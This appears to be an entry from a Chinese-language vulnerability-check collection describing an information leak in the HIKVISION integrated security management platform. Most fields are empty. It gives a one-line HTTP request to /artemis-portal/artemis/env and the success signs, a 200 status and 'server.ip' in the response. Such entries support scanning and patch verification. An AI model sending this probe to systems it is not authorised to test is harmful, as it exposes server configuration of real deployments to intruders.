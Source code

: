 ﻿# HIKVISION 综合安防管理平台信息泄漏

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /artemis-portal/artemis/env HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：server.ip

> 上传文件定位：

> 验证文件来源：HIKVISION 综合安防管理平台存在信息泄漏.poc
